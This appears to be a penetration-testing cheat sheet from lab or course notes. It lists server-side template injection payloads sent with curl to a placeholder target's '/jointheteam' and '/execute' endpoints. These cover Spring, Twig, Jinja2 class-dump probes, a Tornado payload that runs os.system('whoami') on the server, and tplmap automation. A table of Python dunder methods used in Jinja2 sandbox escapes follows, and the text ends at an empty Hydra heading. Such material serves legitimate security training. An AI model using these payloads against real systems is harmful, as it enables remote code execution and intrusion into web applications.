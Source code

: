 ## Command	Description

| Command                                                                                      | Description                                                             |
|----------------------------------------------------------------------------------------------|-------------------------------------------------------------------------|
| `curl -X POST -d 'email=${7*7}' http://<TARGET IP>:<PORT>/jointheteam`                        | Interacting with the remote target (Spring payload)                     |
| `curl -X POST -d 'email={{_self.env.display("TEST"}}' http://<TARGET IP>:<PORT>/jointheteam`  | Interacting with the remote target (Twig payload)                       |
| `curl -X POST -d 'email={{config.items()}}' http://<TARGET IP>:<PORT>/jointheteam`            | Interacting with the remote target (Jinja2 basic injection)             |
| `curl -X POST -d 'email={{ [].class.base.subclasses() }}' http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Jinja2 dump all classes payload)    |
| `curl -X POST -d "email={% import os %}{{os.system('whoami')}}" http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Tornado payload)            |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>/jointheteam' -d email=blah`                        | Automating the exploitation process with tplmap                         |

# SSTI Exploitation Example 3

## Command	Description

| Command                                                                                   | Description                                                             |
|-------------------------------------------------------------------------------------------|-------------------------------------------------------------------------|
| `curl -gs "http://<TARGET IP>:<PORT>/execute?cmd={{7*'7'}}"`                              | Interacting with the remote target (Confirming Jinja2 backend)          |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>/execute?cmd'`                                  | Automating the templating engine identification process with tplmap     |
| `python3`                                                                                 | Starting the python3 interpreter                                        |

### Methods	Description

| Method           | Description                                                               |
|------------------|---------------------------------------------------------------------------|
| `__class__`      | Returns the object (class) to which the type belongs                      |
| `__mro__`        | Returns a tuple containing the base class inherited by the object. Methods are parsed in the order of tuples |
| `__subclasses__` | Each new class retains references to subclasses, and this method returns a list of references that are still available in the class |
| `__builtins__`   | Returns the builtin methods included in a function                        |
| `__globals__`    | A reference to a dictionary that contains global variables for a function |
| `__base__`       | Returns the base class inherited by the object                            |
| `__init__`       | Class initialization method                                               |

# Hydra

## Command	Description
